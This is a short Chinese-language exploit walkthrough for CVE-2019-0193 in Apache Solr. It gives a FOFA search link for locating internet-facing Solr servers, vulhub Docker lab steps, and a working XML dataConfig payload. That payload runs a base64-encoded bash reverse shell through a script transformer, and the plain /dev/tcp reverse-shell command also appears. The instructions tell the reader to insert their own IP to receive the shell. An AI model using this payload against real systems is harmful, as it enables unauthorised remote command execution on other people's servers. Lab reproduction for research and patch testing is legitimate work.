

# Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193

## 漏洞描述
2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与data-config.xml 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 dataConfig 参数中可以包含 script 恶意脚本导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 环境搭建
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可


## 登录页面

点击刚刚创建的test进入调试


将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码



